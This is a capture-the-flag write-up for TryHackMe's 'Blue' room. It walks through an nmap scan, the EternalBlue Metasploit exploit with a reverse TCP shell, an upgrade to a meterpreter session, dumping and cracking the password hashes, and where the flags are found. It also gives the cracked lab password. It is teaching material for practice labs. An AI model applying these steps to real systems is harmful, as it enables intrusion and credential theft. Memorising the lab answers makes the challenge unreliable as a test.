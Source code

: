 Blue
====

TryHackMe's Blue is almost the same as VM's in the Metasploit Rooms but it tells you to do a lil extra and look a little further, which is kinda nice.

First step to this is to get the VM's IP and do an NMAP on it via this command: `nmap -sV -Pn -v -sC IP_ADDR` 

![Image](images/1.png)

When you are looking through the output, you see in the `smb-os-discovery` that the machine is running a version that is vulnerable to the eternalblue exploit (yay) and we can use metasploit to get access to this VM.

Run metasploit using `msfconsole` and run this command: `use exploit/windows/smb/ms17_010_eternalblue`. You are told to use a different payload instead of the default one, you can change the payload using this: `set payload windows/x64/shell/reverse_tcp`. This payload will directly give you a shell instead of a meterpreter shell. Change the RHOST (the machine you're targetting) using `set RHOSTS IP_ADDR` and your LHOST (if you're not on AttackBox) with the IP you were provided by the VPN using this command: `set LHOST IP_ADDR`

Run the exploit with `run` and you will be given a shell. Background this using Ctrl+Z and then find a post-exploiation module which will give you a meterpreter shell. This will be the `post/multi/manage/shell_to_meterpreter` module. type `use post/multi/manage/shell_to_meterpreter` and check the session number for your background tasks by typing `sessions`. Usually this should be 1 and you run following command `set session NUM`. It should be successful when this output shows:

![Image](images/2.png)

Change the session by using the following command: `sessions -i NUM` (Here, you use 2) and you will be given a meterpreter shell. Here you can do `hashdump` and get the hashes for all users, we can crack these by using john the ripper with the NT format. Jon's password is alqfna22.

To find the flags, drop to shell using the `shell` command and look in the following places:
```
1. C:\
2. C:\Windows\System32\config
3. C:\Users\Jon\Documents
```

